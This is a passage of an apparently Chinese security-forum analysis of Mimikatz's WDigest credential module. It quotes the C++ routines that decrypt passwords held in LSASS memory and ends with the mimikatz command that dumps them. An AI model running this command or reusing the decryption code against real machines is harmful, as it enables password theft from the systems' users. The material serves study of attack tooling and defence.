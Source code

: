 该函数先打印 WDigest 凭据中的用户名和域名，最后使用 `*lsassLocalHelper->pLsaUnprotectMemory` 指向的函数对凭据中的用户密码进行解密，在这里是 `kuhl_m_sekurlsa_nt6_LsaUnprotectMemory()` 函数，该函数定义如下。

```cpp
VOID WINAPI kuhl_m_sekurlsa_nt6_LsaUnprotectMemory(IN PVOID Buffer, IN ULONG BufferSize)
{
    kuhl_m_sekurlsa_nt6_LsaEncryptMemory((PUCHAR) Buffer, BufferSize, FALSE);
}
```

跟进 `kuhl_m_sekurlsa_nt6_LsaEncryptMemory()` 函数，如下所示，该函数对 `BCryptEncrypt()` 和 `BCryptDecrypt()` 函数进行封装，二者利用提供的初始化向量和密钥，分别对指定内存的数据块进行加密和解密。

```cpp
NTSTATUS kuhl_m_sekurlsa_nt6_LsaEncryptMemory(PUCHAR pMemory, ULONG cbMemory, BOOL Encrypt)
{
    NTSTATUS status = STATUS_NOT_FOUND;
    BCRYPT_KEY_HANDLE *hKey;
    BYTE LocalInitializationVector[16];
    ULONG cbIV, cbResult;
    PBCRYPT_ENCRYPT cryptFunc = Encrypt ? BCryptEncrypt : BCryptDecrypt;
    RtlCopyMemory(LocalInitializationVector, InitializationVector, sizeof(InitializationVector));
    if(cbMemory % 8)
    {
        hKey = &kAes.hKey;
        cbIV = sizeof(InitializationVector);
    }
    else
    {
        hKey = &k3Des.hKey;
        cbIV = sizeof(InitializationVector) / 2;
    }
    __try
    {
        status = cryptFunc(*hKey, pMemory, cbMemory, 0, LocalInitializationVector, cbIV, pMemory, cbMemory, &cbResult, 0);
    }
    __except(GetExceptionCode() == ERROR_DLL_NOT_FOUND){}
    return status;
}
```

最后将解密后的密码打印出来。

Let’s see it in action
======================

```cmd
mimikatz.exe "privilege::debug" "sekurlsa::wdigest" exit
```

![image-20230512112354722](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-a83f4027fa928ee89de7438ead27ea789e530484.png)